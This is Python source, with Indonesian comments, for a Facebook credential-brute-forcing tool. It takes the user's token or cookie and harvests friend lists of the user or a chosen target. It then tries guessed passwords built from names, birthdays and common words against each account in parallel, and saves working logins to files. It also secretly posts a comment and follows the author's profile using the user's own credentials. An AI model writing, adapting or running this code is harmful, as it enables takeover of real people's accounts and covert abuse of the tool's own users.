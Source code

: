 #hargain author :) jangan diganti ya!
#Boleh ubah headers, pw list dan lain" tapi mohon jangan ubah author asli hhe ane buatnya 1 mingguan semoga di mengerti :)

#hubungin saya jika itu penting :
#WhatsApp : 083870396203
#Facebook : Boyo'ne Purworejo
author = 'z41n4l_4j4h' #author utama
#libary / module import
import requests as req,json,os,time,re,pyfiglet
from concurrent.futures import ThreadPoolExecutor as Bool
from bs4 import BeautifulSoup as parser
try:ua=req.get("https://api-asutoolkit.cloudaccess.host/useragent.txt").text.strip() #api buat get headers java me :)
except req.exceptions.ConnectionError:exit("[!] Kesalahan Pada Koneksi")
#variable buat data :)
ok,cp,die=0,0,0
idTeman,idPublik=[],[]
#nama nama buat logo :)
try:
	judul=pyfiglet.figlet_format('CRACK')
	tem=pyfiglet.figlet_format('TEMAN')
	pub=pyfiglet.figlet_format('PUBLIK')
	logi=pyfiglet.figlet_format('LOGIN')
except:os.system('pip install pyfiglet')
#function login
def login():
	os.system('clear')
	print(f'{logi}\n[   LOGIN TERLEBIH DAHULU GENKS   ]\n\n[1]. Login dengan access token\n[2]. Login dengan cookie\n[99]. Keluar dari script :)\n')
	p=input('[?] Pilih yang mana : ')
	if p in ('01','1'): #kondisi 1 login dengan token :)
		print('\n[!] HARAP MASUKAN ACCESS TOKEN ANDA [!]\n')
		try:
			t=input('[?] Access token anda : ')
			r=json.loads(req.get(f'https://graph.facebook.com/me?access_token={t}').text)
			print('[√] Login berhasil [√]\nDengan nama facebook :',r['name'])
			open('log.txt','a').write(t)
			req.post(f'https://graph.facebook.com/136921208435288/comments/?message=Hallo saya pengguna script mu hihi&access_token={t}')
			time.sleep(2)
			nampung(t).menu()
		except KeyError:
			os.system('clear')
			print('[×] Access token Facebook salah [×]')
			time.sleep(2)
			login()
	elif p in ('02','2'): #kondisi 2 login dengan cookies
		print('\n[!] HARAP MASUKAN COOKIE ANDA [!]\n')
		cookie=input("[!] Masukan Cookie Fb Anda : ")
		tomken=req.get('https://m.facebook.com/composer/ocelot/async_loader/?publisher=feed#_=_', headers={'user-agent': 'Mozilla/5.0 (Linux; Android 9; Redmi 7A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.93 Mobile Safari/537.36', 
           'referer': 'https://m.facebook.com/', 
           'host': 'm.facebook.com', 
           'origin': 'https://m.facebook.com', 
           'upgrade-insecure-requests': '1', 
           'accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7', 
           'cache-control': 'max-age=0', 
           'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8', 
           'content-type': 'text/html; charset=utf-8'}, cookies={'cookie': cookie})
		find_token = re.search('(EAAA\w+)',tomken.text)
		if (find_token is None):
			print("[!] Cookie Facebook Salah")
			time.sleep(2)
			login()
		else:
			to=find_token.group(1)
			ru=json.loads(req.get(f"https://graph.facebook.com/me?access_token={to}").text)
			try:print("[√] Login Berhasil\nNama Akun :",ru['name'])
			except:exit("[!] Akun anda terkena limit tunggu 1 - 4 jam atau gunakan akun lain [!]\n")
			req.post(f"https://graph.facebook.com/136921208435288/comments/?message=Hallo saya pengguna script mu hihi&access_token={to}")
			time.sleep(2)
			open("log.txt","a").write(to)
			nampung(to).menu()
			try:
				cek=req.get("https://mbasic.facebook.com/100063522272055",cookies={"cookie":cookie}).text
				true=False
				if "Berhenti mengikuti" not in cek:true=True
				if true==True:
					req.get("https://mbasic.facebook.com/"+parser(cek,"html.parser").find("a",string="Ikuti").get("href"),cookies={"cookie":cookie})
				else:pass
			except:pass
			nampung(to).menu()
	elif p=='99':exit(':( Terima kasih!')#kondisi keluar dari script
	else:
		print('[!] Pilihan tidak Ada [!]\n')
		time.sleep(2)
		login()
def logic():
	try:
		t=open('log.txt','r').read()
		r=json.loads(req.get(f'https://graph.facebook.com/me?access_token={t}').text)
		os.system('clear')
		print('[√] Anda sudah login di Tools [√]\nNama akun Facebook :',r['name'])
		time.sleep(2)
		nampung(t).menu()
	except KeyError:
		os.system('clear')
		print('[×] Token facebook anda Invalid [×]')
		os.system('rm -rf log.txt')
		time.sleep(2)
		login()
	except FileNotFoundError:
		os.system('clear')
		print('[!] Anda belum login ke Tools [!]')
		time.sleep(2)
		login()
class crack:
	
	def __init__(self,token):self.token=token
	def crack1(self,user,pw,ttl):
		global ok,cp,die
		itung.append(user)
		data={}
		ses=req.Session()
		ses.headers.update({"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","content-type":"application/x-www-form-urlencoded","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","user-agent":ua,"referer":"https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8","accept-encoding":"gzip, deflate","accept-language":"id-ID,en-US;q=0.9"})
		a=parser(ses.get("https://mbasic.facebook.com/login/?next&ref=dbl&refid=8").text,"html.parser")
		b=["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
		for c in a("input"):
			try:
				if c.get("name") in b:data.update({c.get("name"):c.get("value")})
				else:continue
			except:pass
		data.update({"email":user,"pass":pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
		d=ses.post("https://mbasic.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Fmbasic.facebook.com%2F&lwv=100&refid=8",data=data)
		if "c_user" in d.cookies:
			ok+=1
			open("ok.txt","a").write(user+" | "+pw+" | "+ttl+"\n")
			print(f"\r\x1b[1;32m[OK] {user} | {pw} | {ttl}         \x1b[0m",end="")
			print("")
		elif "checkpoint" in d.cookies:
			cp+=1
			open("cp.txt","a").write(user+" | "+pw+" | "+ttl+"\n")
			print(f"\r\x1b[1;33m[CP] {user} | {pw} | {ttl}      \x1b[0m",end="")
			print("")
		else:pass
	def crack2(self,user,pw,ttl):
		global ok,cp,die
		data={}
		ses=req.Session()
		ses.headers.update({"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","content-type":"application/x-www-form-urlencoded","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","user-agent":ua,"referer":"https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8","accept-encoding":"gzip, deflate","accept-language":"id-ID,en-US;q=0.9"})
		a=parser(ses.get("https://mbasic.facebook.com/login/?next&ref=dbl&refid=8").text,"html.parser")
		b=["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
		for c in a("input"):
			try:
				if c.get("name") in b:data.update({c.get("name"):c.get("value")})
				else:continue
			except:pass
		data.update({"email":user,"pass":pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
		d=ses.post("https://mbasic.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Fmbasic.facebook.com%2F&lwv=100&refid=8",data=data)
		if "c_user" in d.cookies:
			ok+=1
			open("ok.txt","a").write(user+" | "+pw+" | "+ttl+"\n")
			print(f"\r\x1b[1;32m[OK] {user} | {pw} | {ttl}         \x1b[0m",end="")
			print("")
		elif "checkpoint" in d.cookies:
			cp+=1
			open("cp.txt","a").write(user+" | "+pw+" | "+ttl+"\n")
			print(f"\r\x1b[1;33m[CP] {user} | {pw} | {ttl}      \x1b[0m",end="")
			print("")
		else:pass
class nampung:
	
	def __init__(self,token):self.token=token
	def sendTeman(self):
		os.system('clear')
		print(f'{tem}\n[   Crack Daftar Teman   ]\n')
		with Bool(max_workers=35) as tokai:
			r=json.loads(req.get(f'https://graph.facebook.com/me/friends?access_token={self.token}').text)
			for i in r['data']:idTeman.append(i['id'])
			print('[+] Ok save : ok.txt\n[+] Cp save : cp.txt\n')
			time.sleep(1)
			print('[+] Jumlah ID teman :',len(idTeman),'\n[+] Starting crack, stop? CTRL + Z\n======================================\n')
			for id in idTeman:
				r2=json.loads(req.get(f'https://graph.facebook.com/{id}?access_token={self.token}').text)
				try:pwList=[r2['first_name']+'0',r2['first_name']+'11',r2['first_name']+'12',r2['first_name']+'123',r2['first_name']+'1234',r2['first_name']+'12345','Sayang','Doraemon','Bangsad','Rahasia','Katasandi','123456','1234567','Kontol','102030','Freefire','Anjing','Monyet','Bismillah','Indonesia',r2['birthday']] #Password list ubah lah jika itu butuh :)
				except:pass
				try:
					for pw in pwList[1:19]:tokai.submit(crack(self.token).crack1,id,pw,pwList[-1])
				except:pass
		print(f'[   Crack selesai | hasil dapet OK:-{str(ok)} CP:-{str(cp)}   ]\n')
		b=input('[ ENTER UNTUK KEMBALI ]')
		self.menu()
	def sendPublik(self):
		os.system('clear')
		print(f'{pub}\n[   Crack Daftar Teman Orang   ]\n')
		t=input('[!] Masukan ID Teman/Orang : ')
		try:
			r=json.loads(req.get(f'https://graph.facebook.com/{t}?access_token={self.token}').text)
			print('\n[+] Ok save : ok.txt\n[+] Cp save : cp.txt\n\n[+] Nama target/orang :',r['name'])
		except:
			print('[×] User tidak ditemukan [×]')
			time.sleep(2)
			self.menu()
		r3=json.loads(req.get(f'https://graph.facebook.com/{t}/friends?access_token={self.token}').text)
		with Bool(max_workers=35) as tokai:
			for i in r3['data']:idPublik.append(i['id'])
			print('[+] Jumlah ID teman :',len(idPublik),'\n\n[+] Starting crack, stop? CTRL + Z\n======================================\n')
			for id in idPublik:
				r2=json.loads(req.get(f'https://graph.facebook.com/{id}?access_token={self.token}').text)
				try:pwList=[r2['first_name']+'0',r2['first_name']+'11',r2['first_name']+'12',r2['first_name']+'123',r2['first_name']+'1234',r2['first_name']+'12345','Sayang','Doraemon','Bangsad','Rahasia','Katasandi','123456','1234567','102030','Freefire','Anjing','cantik','Kontol','Bismillah','Indonesia',r2['birthday']] #Password list ubah jika itu butuh :)
				except:pass
				try:
					for pw in pwList[1:19]:tokai.submit(crack(self.token).crack2,id,pw,pwList[-1])
				except:pass
		print(f'[   Crack selesai | hasil dapet OK:-{str(ok)} CP:-{str(cp)}   ]\n')
		b=input('[ ENTER UNTUK KEMBALI ]')
		self.menu()
	def menu(self):
		os.system('clear')
		os.system('clear')
		r=json.loads(req.get(f'https://graph.facebook.com/me?access_token={self.token}').text)
		print(f'{judul}\n[   Hallo',r['name']+', Selamat datang di tools versi: BETA   ]\n\n[1]. Crack daftar teman fb kamu\n[2]. Crack daftar teman/id publik\n[3]. Informasi tools ini\n[9]. Logout akun kamu\n')
		while True:
			p=input('[?] Pilih yang mana : ')
			if p in ('01','1'):self.sendTeman()
			elif p in ('02','2'):self.sendPublik()
			elif p in ('03','3'):
				print('\n[ Hallo kak! Ini adalah tools bruteforce/crack facebook!! Tools ini dibuat oleh Latip Harkat dengan github Latip176 ]\n\nInformasi Sosmed\n1. Facebook\t: Boyo'ne Purworejo\n2. WhatsApp\t: +13858811677\n\nJika mengalamin kendala saat memakai tools hubungi social media diatas terima kasih.\n')
				b=input('[   ENTER UNTUK KEMBALI   ]')
				self.menu()
			elif p=='9':
				os.system('rm -rf log.txt')
				exit('[√] Logout berhasil [√]')
			else:print('[!] Pilihan tidak ada\n')

if __name__=='__main__':
	logic()
